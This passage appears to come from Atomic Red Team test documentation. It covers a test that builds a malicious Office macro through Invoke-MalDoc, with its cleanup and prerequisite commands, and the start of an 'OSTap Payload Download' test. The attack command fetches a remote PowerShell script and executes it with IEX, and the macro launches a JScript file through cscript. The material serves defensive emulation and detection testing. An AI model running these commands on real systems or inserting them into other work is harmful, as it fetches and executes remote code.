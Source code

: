 
#### Attack Commands: Run with `powershell`! 


```powershell
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1")
$ms_office_version = #{ms_office_version}
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"cscript.exe #{jse_path}`"`n"
Invoke-MalDoc $macrocode "$ms_office_version" "#{ms_product}"
```

#### Cleanup Commands:
```powershell
if (Test-Path #{jse_path}) { Remove-Item #{jse_path} }
$ms_office_version = #{ms_office_version}
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Office\$ms_office_version\#{ms_product}\Security\' -Name 'AccessVBOM' -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Test Requires MS Office to be installed and have been run previously. Run -GetPrereqs to run msword and build dependant registry keys
##### Check Prereq Commands:
```powershell
$ms_office_version = #{ms_office_version}
If (Test-Path HKCU:SOFTWARE\Microsoft\Office\$ms_office_version) { exit 0 } else { exit 1 } 
```
##### Get Prereq Commands:
```powershell
$msword = New-Object -ComObject word.application
Stop-Process -Name WINWORD
```




<br/>
<br/>

## Atomic Test #2 - OSTap Payload Download
Uses cscript //E:jscript to download a file

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| script_file | File to execute jscript code from | Path | %TEMP%&#92;OSTapGet.js|
| file_url | URL to retrieve file from | Url | https://128.30.52.100/TR/PNG/iso_8859-1.txt|
